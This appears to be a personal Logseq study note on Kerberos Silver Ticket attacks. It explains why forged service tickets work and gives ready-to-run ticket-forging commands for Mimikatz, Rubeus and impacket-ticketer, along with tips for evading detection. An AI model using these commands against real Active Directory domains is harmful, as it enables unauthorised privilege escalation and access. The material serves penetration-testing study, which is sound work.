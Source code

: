 public:: true

- [As we know](((655b6438-6055-4038-b37b-457c7b623610))), in the Kerberos protocol, user's permissions included in the [TGS](((655b24f3-a272-4dc0-814f-e7b3a4edf632))) (in the [PAC](((6564d528-627a-4b9b-b5b3-e57ff5477619))) block) are checked **by the application server** and not from the domain controller, except if [PAC validation](((655f615a-5051-4943-9791-934b3b6173bb))) is enabled.
- In case we are able to craft TGS tickets by ourselves we could spoof the specified users' permissions, actually grant us any permission we want.
- The TGS is encrypted by the [KDC](((6565b3f7-61b6-4b2a-a59d-01d20e6acd96))) with the password (hash) of the domain account to whom the [SPN](((655e0fad-5b48-42ce-b82a-09cd0e4a9322))) is assigned. Hence, we **need that account password** or at lease its hash to successfully perform a Silver Ticket attack.
- Let's consider we already got that password, for instance we retrieved it via [[Kerberoasting]] or dumped from the LSASS process' memory of a machine we broke into
- We can now forge TGS tickets for that SPN. And by doing that we can specify any permission we want into it.
- #+BEGIN_WARNING
  Permissions are defined in the PAC block of the TGS and this block is always **signed by the *krbtgt* user** *(only known by the KDC)*.
  
  That means we **cannot create a valid signature for the PAC** block.
  #+END_WARNING
- But, as we already saw in the [Kerberos workflow]([[Kerberos]]), PAC validation [is rarely performed](((656894a3-41d7-4b62-b202-c967caa53483))) by application servers. So we could expect that the application server will **blindly trust** the TGS we'll provide, without asking the KDC to validate the PAC signature in it.
  id:: 65689610-32fb-4241-99c9-b06cadf5f80c
- #+BEGIN_NOTE
  Thanks to Silver Tickets we might access resources from the targeted SPN that we shouldn't be able to access otherwise.
  #+END_NOTE
- Forge Silver Tickets
	- Ingredients
		- The SPN password hash
		  logseq.order-list-type:: number
			- Once the account [password is rotated](((6568a1fb-58d3-4402-bbb5-8c3d1bca729e))) or reset, we won't be able to generate TGS tickets anymore.
		- The SPN
		  logseq.order-list-type:: number
		- The [domain SID](((6568a492-a226-4069-a5ef-127a23fb9de5)))
		  logseq.order-list-type:: number
	- From Windows
	  id:: 6568a340-887a-4e0e-9515-0344e4728aaa
		- With [[Mimikatz]]
		  ```
		  kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
		  ```
			- `/sid` - The domain SID
			- `/domain` - The domain name
			- `/target` - The target where the SPN runs
			- `/service` - The SPN protocol
			- `/rc4` - NTLM hash of the account with the target SPN assigned
				- If available, it's always better use AES keys to minimize the detection risk
			- `/ptt` - To automatically inject the created ticket into the local LSASS process' memory
			- `/user` - The domain user we want to get access from
				- However, we could also use any other domain user since we can set the permissions and groups ourselves.
			- By default Mimikatz automatically set very high permissions, like *local-administrator* (500) and membership of the *Domain Admins* group (512). Plus others.
			- Full documentation [here](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos#golden)
		- With [[Rubeus]]
		  id:: 6568aad6-ac91-4776-b544-a06110eec895
		  ```powershell
		  Rubeus.exe silver /service:cifs/SQL1.rubeus.ghostpack.local /rc4:f74b07eb77caa52b8d227a113cb649a6 /user:ccob /domain:rubeus.ghostpack.local /ptt
		  ```
			- `/service` - The target SPN
			- `/rc4` - NTLM hash of the account with the target SPN assigned
				- If available, it's always better use AES keys (`/aes256`) to minimize the detection risk
			- `/user` - The domain user we want to get access from
			- `/domain` - The domain name
			- `/ptt` - To automatically inject the created ticket into the local LSASS process' memory
			- Full documentation [here](https://github.com/GhostPack/Rubeus#silver)
	- From Linux
		- With [[impacket-ticketer]]
		  ```bash
		  impacket-ticketer \
		    -nthash b18b4b218eccad1c223306ea1916885f \
		    -domain-sid S-1-5-21-1339291983-1349129144-367733775 \
		    -domain jurassic.park \
		    -spn cifs/labwws02.jurassic.park stegosaurus
		  ```